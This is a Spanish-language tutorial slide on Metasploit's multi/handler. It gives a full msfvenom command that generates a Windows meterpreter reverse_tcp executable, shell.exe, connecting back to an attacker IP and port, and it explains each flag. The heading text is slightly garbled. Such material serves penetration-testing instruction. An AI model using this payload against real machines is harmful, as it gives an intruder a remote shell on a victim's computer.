

# Paso a paso para usar multi/handler: Generar el Payload: El atacante utiliza la herramienta msfvenom, que viene con Metasploit, para crear un programa malicioso ejecutable. Este programa contiene el payload (por ejemplo, una reverse shell) que, al ser ejecutado en la máquina víctima, se conectará de vuelta a la máquina del atacante.sar multi/handler:
Ejemplo de comando de msfvenom: msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > shell.exe
-p: Especifica el payload (windows/x64/meterpreter/reverse_tcp).
LHOST: La dirección IP del atacante (tu máquina).
LPORT: El puerto que el oyente estará esperando.
-f: Formato del archivo (exe).
>: Redirige la salida a un archivo (shell.exe).